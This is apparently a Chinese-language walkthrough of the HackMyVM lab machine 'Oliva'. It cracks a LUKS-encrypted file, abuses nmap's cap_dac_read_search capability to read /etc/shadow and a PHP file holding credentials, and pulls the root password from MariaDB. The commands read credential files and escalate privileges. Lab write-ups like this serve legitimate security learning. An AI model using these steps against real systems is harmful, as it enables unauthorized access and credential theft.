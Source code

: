 # Oliva

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Oliva

[video](https://www.bilibili.com/video/BV11jQqYEEuf/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 发现 http://192.168.5.39/index.php 提示点击链接 http://192.168.5.39/oliva 获得 root 密码。file 查看文件属性发现是 oliva: LUKS encrypted file, ver 2, 使用 sha256 进行的加密, 需要进行解密。

进行文件分割:

```
dd  if=oliva of=oliva-drive-cut.dd bs=512 count=4097
```

进行爆破，但是没戏，发现 hashcat 14600 只支持 v1 版本的 LUKS 文件破解:

```
hashcat -m 14600 -a 0 oliva-drive-cut.dd /usr/share/wordlist/rockyou.txt
```

在找一下其他的破解工具，找到了这个可以破解 v2 版本的文件 bruteforce-luks L

```
sudo apt install bruteforce-luks
bruteforce-luks -t 16 -f /usr/share/wordlists/rockyou.txt oliva -v 5
```

找到密码: bebita , 在使用 cryptsetup 挂载加密磁盘:

```
cryptsetup luksOpen oliva m
```

挂载到了 /dev/mapper/m 下 进行文件挂载：

```
mkdir m
sudo mount /dev/mapper/m m
```

进入 m 目录，发现密码文件：

```
cat mypass.txt
Yesthatsmypass!
```

尝试使用 oliva 用户登陆 ssh，先拿到 user flag:

```
oliva@oliva:~$ cat user.txt
HMVY0H8NgGJqbFzbgo0VMRm
```

发现 capabilities 程序:

```
oliva@oliva:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

利用 cap_dac_read_search 权限读取敏感信息：

```
/usr/bin/nmap -iL /etc/shadow

root:$y$j9T$mJZXSkk0PjMpjwgunTu3a.$xlW8pdbOdxHdqCatq072mj3qQ69To4Gy6WbRwSbY6S3:19542:0:99999:7:::
```

但是 john 没破解出来:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash --pot=./pot
```

猜不出 root 目录中的 roo flag 的文件名读取不到。

在回头看看 html 目录中的 web 文件，都是 www-data 所属，读取一下看看会不会有重要信息 index.php

```
/usr/bin/nmap -iL /var/www/html/index.php

Hi oliva, Here the pass to obtain root: <?php $dbname = 'easy'; $dbuser = 'root'; $dbpass = 'Savingmypass'; $dbhost = 'localhost'; ?>
```

链接到 mysql，拿到 root 用户的密码:

```
MariaDB [easy]> select * from easy.logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
```

su 切换到 root，拿到 root flag:

```
root@oliva:~# cat rutflag.txt
HMVnuTkm4MwFQNPmMJHRyW7
```
